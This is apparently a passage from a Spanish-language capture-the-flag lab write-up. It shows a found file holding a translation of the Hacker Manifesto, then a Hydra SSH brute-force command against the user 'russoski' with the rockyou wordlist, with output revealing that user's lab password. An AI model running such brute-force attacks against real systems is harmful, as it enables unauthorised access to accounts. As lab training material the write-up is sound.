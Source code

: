 ```

           El mío es un mundo que comienza en la escuela.. Soy más inteligente que la mayoría de los otros muchachos,
                                         esa basura que ellos nos enseñan me aburre..

                                           Malditos sub realizados. Son todos iguales.

    Estoy en la preparatoria. He escuchado a los profesores explicar por decimoquinta vez como reduciruna fracción. Yo lo entiendo.

                            "No, Srta. Smith, no le voy a mostrar mi trabajo, lo hice en mi mente..
                               "Maldito muchacho. Probablemente se lo copió. Todos son iguales.

                  Hoy hice un descubrimiento. Encontré una computadora. Espera un momento, esto es lo máximo.
                          Esto hace lo que yo le pida. Si comete un error es porque yo me equivoqué.

        No porque no le gustó.. o se siente amenazada por mí.. o piensa que soy un engreído.. o no le gusta enseñar y no
                     debería estar aquí.. Maldito muchacho. Todo lo que hace es jugar. Todos son iguales.

   Y entonces ocurrió.. una puerta abierta al mundo.. corriendo a través de las lineas telefónicas como la heroína a través de
       las venas de un adicto, se envía un pulso electrónico, un refugio para las incompetencias del día a día es buscado..
                                            una tabla de salvación es encontrada.

                                   --------------------------------------------------------

```

Este fichero no parece darnos mucha información relevante.
# Usuario Russoski

Realizamos una taque de fuerza bruta con el nombre de usuario encontrado y el servicio **SSH**.

```
> hydra -l russoski -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-08 16:19:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 6 final worker threads did not complete until end.
[ERROR] 6 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-08 16:20:23
```
